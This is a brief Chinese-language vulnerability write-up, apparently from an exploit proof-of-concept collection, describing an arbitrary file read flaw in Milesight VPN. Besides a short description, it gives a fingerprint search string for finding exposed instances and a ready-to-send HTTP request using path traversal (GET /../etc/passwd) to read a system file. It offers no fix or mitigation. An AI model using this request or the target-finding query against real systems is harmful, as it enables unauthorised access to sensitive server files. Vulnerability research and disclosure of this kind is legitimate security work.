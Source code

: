 # Milesight VPN server.js 任意文件读取漏洞

## 漏洞描述

MilesightVPN 是一款软件，可使 Milesight 产品的 VPN 通道设置过程更加简便，并可通过网络服务器界面监控连接状态。其中存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

Milesight VPN

## 网络测绘

```
"MilesightVPN"
```

## 漏洞复现

登陆页面

![image-20230828161340509](images/image-20230828161340509.png)

验证POC

```
GET /../etc/passwd HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![image-20230828161357209](images/image-20230828161357209.png)